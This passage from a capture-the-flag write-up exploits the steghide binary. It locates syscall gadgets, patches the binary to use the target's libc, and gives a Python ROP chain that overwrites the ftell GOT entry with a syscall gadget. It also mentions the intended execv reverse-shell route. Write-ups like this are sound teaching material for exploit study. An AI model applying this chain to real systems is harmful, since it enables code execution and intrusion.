 I tried searching for syscall inside `steghide` binary - and there is one.

```c
0x0044d224: syscall;
```

However it gets us only one shot, which would be fine if we want to use `execv` and get shell, but as we want multiple syscalls called, we would lose flow control after executing first one (If you now think why not just use `execv` and call reverse shell with - congratulations, that was the solution intended by task creator. It does not require libc reference in that case.)

As I was not that smart, I went with searching for syscall gadgets in libc. From now on, as we deal with libc - we want to use exactly the same one that is on the target system. We can run docker container and simply copy it with

```c
docker cp df70e9f779d5:/lib/x86_64-linux-gnu/libc-2.31.so libc-2.31.so
```

Then I used `[pwninit`](https://github.com/io12/pwninit) script (`[patchelf`](https://github.com/NixOS/patchelf) works as well) to modify `steghide` binary to use provided libc instead of system one. That way all offsets on our system should match remote target.

In libc I found syscall gadget that I looked for

```c
0x00116a47: syscall; ret;
```

Which will execute syscall but return control to our ROP chain as well.

In this snippet I used all these gadgets to calculate syscall gadget address in libc. `gettext_got_entry`is simply some libc function which was already used in the steghide program (therefore its address in GOT is already resolved to libc) and we calculate offset from that function to syscall gadget. At the end - we install this gadget as GOT entry using arbitrary write primitive, replacing some other function so we can easily call this gadget. I replaced `ftell` function in my solution.

```python
def install_syscall_gadget(addr):
     rop = b""
     rop += p64(pop_rax_rbx_rbp)
     rop += p64(gettext_got_entry)
     rop += p64(0)
     rop += p64(0)
     rop += p64(mov_rax_prax_pop_rbp)#now in rax we have gettext libc address
     rop += p64(0)
 
     rop += p64(pop_rdx)
     rop += p64(syscall_offset_from_gettext)
     rop += p64(add_rax_rdx_pop_rbp)#rax points to syscall gadget now
     rop += p64(0)
 
     rop += p64(pop_rdx)
     rop += p64(addr)
     rop += p64(mov_prdx_rax_pop_rbp)#With this we move our gadget into addr
     rop += p64(0)
     return rop
```
